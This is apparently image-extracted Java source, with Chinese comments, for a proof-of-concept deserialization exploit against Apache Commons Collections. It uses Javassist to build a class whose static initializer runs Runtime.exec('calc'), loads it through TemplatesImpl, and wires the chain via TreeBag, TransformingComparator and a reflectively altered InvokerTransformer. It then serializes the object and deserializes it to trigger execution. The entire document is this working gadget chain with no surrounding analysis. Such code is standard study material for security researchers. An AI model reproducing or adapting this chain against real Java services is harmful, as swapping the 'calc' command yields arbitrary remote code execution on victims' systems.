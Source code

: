 ```java

import java.io.*;
import java.lang.reflect.Field;

public class cc4_2 {
    public static void main(String[] args) throws Exception {
        // 读取恶意类 bytes[]
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        ClassPool classPool=ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass payload=classPool.makeClass("CommonsCollections444");
        payload.setSuperclass(classPool.get(AbstractTranslet));
        payload.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");

        byte[] bytes=payload.toBytecode();

        // 初始化 TemplatesImpl 对象
        TemplatesImpl tmpl = new TemplatesImpl();
        Field bytecodes = TemplatesImpl.class.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(tmpl, new byte[][]{bytes});
        // _name 不能为空
        Field name = TemplatesImpl.class.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(tmpl, "name");

        // 用 InvokerTransformer 来反射调用 TemplatesImpl 的 newTransformer 方法
        // 这个类是 public 的，方便调用
        Transformer transformer = new InvokerTransformer("toString", new Class[]{}, new Object[]{});
        TransformingComparator comparator = new TransformingComparator(transformer);

        // prepare CommonsCollections object entry point
        TreeBag tree = new TreeBag(comparator);
        tree.add(tmpl);

        Field field = InvokerTransformer.class.getDeclaredField("iMethodName");
        field.setAccessible(true);
        field.set(transformer, "newTransformer");

        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc4"));
            outputStream.writeObject(tree);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc4"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
}
```
